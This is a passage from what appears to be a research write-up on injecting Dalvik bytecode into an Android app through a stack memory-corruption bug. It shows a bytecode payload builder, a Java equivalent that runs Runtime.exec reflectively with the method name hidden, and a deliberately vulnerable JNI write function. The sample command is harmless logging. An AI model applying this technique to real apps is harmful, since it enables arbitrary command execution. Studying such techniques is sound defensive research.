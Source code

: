 ```python
# 006a: 6e 10 0d 00 01 00 INVOKE_VIRTUAL {v1}, METHOD:Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
        .invoke_virtual(1, stringbuilder_tostring_index, [v1])
# 0070: 0c 06             MOVE_RESULT_OBJECT v6
        .move_result_object(v6)
# 0072: 24 10 15 00 06 00 FILLED_NEW_ARRAY {v6}, TYPE:[Ljava/lang/Object;
        .filled_new_array(1, 'Object[]', [v6])
# 0078: 0c 06             MOVE_RESULT_OBJECT v6
        .move_result_object(v6)
# 007a: 6e 30 0f 00 45 06 INVOKE_VIRTUAL {v5, v4, v6}, METHOD:Ljava/lang/reflect/Method;->invoke(Ljava/lang/Object;,[Ljava/lang/Object;)Ljava/lang/Object;
        .invoke_virtual(3, method_invoke_index, [v5, v4, v6])
# 0080: 0e 00             RETURN_VOID 
        .return_void()
# 0082: 00 00             NOP 
        .nop()
# 0084: ARRAY_PAYLOAD Array@{108, 111, 103, 32, 34, 104, 101, 108, 108, 111, 32, 116, 104, 101, 114, 101, 33, 34}
        .array_payload(2, len(command), command_buffer)
# 00b0: ARRAY_PAYLOAD Array@{101, 120, 101, 99}
        .array_payload(2, 4, b'e\x00x\x00e\x00c\x00')).build()
```

The java equivalent could look something like this:
```java
char[] cCommand = new char[] { <command> };
StringBuilder bCommand = new StringBuilder();
bCommand.append(cCommand);
char[] cExec = new char[] {'e', 'x', 'e', 'c'};
StringBuilder bExec = new StringBuilder();
bExec.append(cExec);
Runtime runtime = Runtime.getRuntime();
Class<?> runtimeClass = runtime.getClass();
String execName = bExec.toString();
Class[] signature = new Class[] { String.class };
Method exec = runtimeClass.getDeclaredMethod(execName, signature);
String command = bCommand.toString();
Object[] args = new Object[] { command };
exec.invoke(runtime, args);
```

### The Attack

With a payload at hand, it is time to abuse the memory error and obtain arbitrary command execution in the context of the target app.

Before injecting the bytecode, the leaked stack address must be understood properly in order to find the exact location of the payload. To that end, a particular execution yields a leak of `0x6eb6aec650`. Remember the original C code of `writeIndexed`:
```C
extern "C"
JNIEXPORT void JNICALL
Java_com_poc_poc_1remote_MainActivity_writeIndexed(JNIEnv *env, jclass clazz,
                                                   jint index, jlong value)
                                                   __attribute__ ((optnone)) {
    uint64_t i;
    uint64_t *buffer = &i;
    buffer[index] = value;
}
```


[comment]: <> (Arms race)
[comment]: <> (Parallels to native code)
[comment]: <> (Motivation)
[comment]: <> (Missing distinction between data and code)
[comment]: <> (Bytecode injection is a real, new thing)
[comment]: <> (ASLR?)
[comment]: <> (Gloss over target)
[Offset = 0x0]: classes.dex
[Offset = 0x0]: classes.dex